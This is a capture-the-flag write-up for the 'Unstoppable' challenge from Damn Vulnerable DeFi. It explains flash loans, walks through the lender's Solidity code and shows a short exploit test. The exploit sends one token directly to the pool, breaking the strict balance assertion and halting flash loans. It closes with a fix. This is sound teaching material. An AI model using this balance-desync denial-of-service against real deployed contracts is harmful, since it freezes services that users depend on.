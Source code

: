 # Unstoppable

## Introduction

The goal is stop pool from offering flash loan.
How does flash loan works?
In simple terms, flash loan are broken down into 3 steps and to be completed in a single transaction.
1) A loan from a pool of money is sent to receiver.
2) Receiver will use the money to execute a certain action from another smart contract.
3) Receiver will return the money with fixed rate (Something like an interest rate).

Reference: https://10clouds.com/blog/defi/understanding-flash-loans-in-defi/

## Code Breakdown

Let's start by breaking down the source code into functions.
There are two files - ***UnstoppableLender.sol*** and ***ReceiverUnstoppable.sol***.
***UnstoppableLender.sol*** will loan money to receiver and execute functions from ***ReceiverUnstoppable.sol***.

However, we'll look at ***UnstoppableLender.sol*** primarily.

There are a few variables declared, one consutructors and two functions in the smart contract.

For starters, this contract mainly use damnValuableToken as their main currency - ```IERC20 public immutable damnValuableToken```.
Openzeppelin is used to create the token.

Reference: https://docs.openzeppelin.com/contracts/2.x/api/token/erc20#IERC20

```uint256 public poolBalance``` is created to store a pool token ready to be loaned. 

Next, a constructor is called whenever the smart contract is deployed.
Next, the tokens will be named as ***damnValuableToken***.
```
constructor(address tokenAddress) {
    require(tokenAddress != address(0), "Token address cannot be zero");
    damnValuableToken = IERC20(tokenAddress);
}
```
It requires ***tokenAddress*** and it performs a check if the address is 0. This will ensure the address integrity.

Now, we can talk about the functions in question.
Let's start with ***depositTokens***.
```
function depositTokens(uint256 amount) external nonReentrant {
    require(amount > 0, "Must deposit at least one token");
    // Transfer token from sender. Sender must have first approved them.
    damnValuableToken.transferFrom(msg.sender, address(this), amount);
    poolBalance = poolBalance + amount;
}
```

The functions require ***amount*** to be specified and more than 0 when it's called.
As part of an innate function from openzeppelin IERC20 , ```damnValuableToken.transferFrom(msg.sender, address(this), amount);``` will then transfer ```amount``` to ```address(this)``` from ```msg.sender```.
```msg.sender``` = sender address (deployer).
```address(this)``` = receiver address (pool smart contract address).
```amount``` = amount of tokens deposited to pool.

***poolBalance*** will be updated along with the new amount.
Note that this is the only place where ***poolBalance*** can be updated.


Next, ***flashLoan*** is the main function to execute a flash loan.
```
function flashLoan(uint256 borrowAmount) external nonReentrant {
    require(borrowAmount > 0, "Must borrow at least one token");

    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    require(balanceBefore >= borrowAmount, "Not enough tokens in pool");

    // Ensured by the protocol via the `depositTokens` function
    assert(poolBalance == balanceBefore);
    
    damnValuableToken.transfer(msg.sender, borrowAmount);
    
    IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);
    
    uint256 balanceAfter = damnValuableToken.balanceOf(address(this));
    require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");
}
```

I'll breakdown a few requirements quickly.
```require(borrowAmount > 0, "Must borrow at least one token");``` = Amount borrowed must be more than 1 token.
```require(balanceBefore >= borrowAmount, "Not enough tokens in pool");``` = Current amount of tokens in the pool must be more than amount borrowed.
```assert(poolBalance == balanceBefore);``` = Current amount of tokens in poolBalance must be the same before the flashloan.
```damnValuableToken.transfer(msg.sender, borrowAmount);``` = Token transferred to receiver.
```IReceiver(msg.sender).receiveTokens(address(damnValuableToken), borrowAmount);``` = Execute function in another contract ***ReceiverUnstoppable.sol***. 

During this function, tokens loaned to receiver will be returned to pool.
```require(balanceAfter >= balanceBefore, "Flash loan hasn't been paid back");``` = Amount of tokens after loaned must be more than the amount of tokens before the loan

## Hints
The goal is to stop the smart contract from functioning. 
Take a look at this section ```assert(poolBalance == balanceBefore);```.

Technically, there exist 2 pool balance - 1 in ***UnstoppableLender.sol** and ***DamnValuableToken.sol***.

Notice that ***poolBalance*** must be equal to ***balanceBefore***. These are the 2 pool balance
***poolBalance*** can only be increased from the function ***depositTokens***.
***balanceBefore*** checks for the current tokens in the pool directly from ***DamnValuableToken.sol*** (openzeppelin innate function). 
Therefore, both variables are async.
A simple solution is to transfer token directly into ***DamnValuableToken.sol*** to trigger a revert in ```assert(poolBalance == balanceBefore);```.

## Solution
Here's the solution (I've added 2 functions in ***ReceiverUnstoppable.sol*** to retrieve the number of tokens in the pool).
```
it('Exploit', async function () {
    /** CODE YOUR EXPLOIT HERE */
    //Before Transfer
    before_bal1 = await this.pool.getPoolBal();
    before_bal2 = await this.pool.getTokenBal();
    console.log("Before transfer:\nBalance from ReceiverUnstoppable.sol - ", before_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", before_bal2.toString());

    //Transfer token to halt flashloan services
    console.log("Transferring 1 token to DamnValuableToken.sol pool");
    await this.token.transfer(this.pool.address, 1);

    //After Transfer
    after_bal1 = await this.pool.getPoolBal();
    after_bal2 = await this.pool.getTokenBal();
    console.log("After transfer:\nBalance from ReceiverUnstoppable.sol - ", after_bal1.toString());
    console.log("Balance from DamnValuableToken.sol - ", after_bal2.toString());
});
```

Functions added to reflect the result below
```
function getPoolBal() public view returns (uint256){
    return poolBalance;
}

function getTokenBal() public view returns (uint256){
    uint256 balanceBefore = damnValuableToken.balanceOf(address(this));
    return balanceBefore;
}
```

Here's the result 
```
Before transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000000
Transferring 1 token to DamnValuableToken.sol pool
After transfer:
Balance from ReceiverUnstoppable.sol -  1000000000000000000000000
Balance from DamnValuableToken.sol -  1000000000000000000000001
```


## Recommendations
By no means you should ever need two set of pools. For the sake of this challenge, one simple solution is to sync ***poolBalance*** and ***damnValuableToken.balanceOf(address(this))*** whenever a new token is transferred into either pool. Although it will create a whole new magntitude of problem but hey, at least its solved. :)
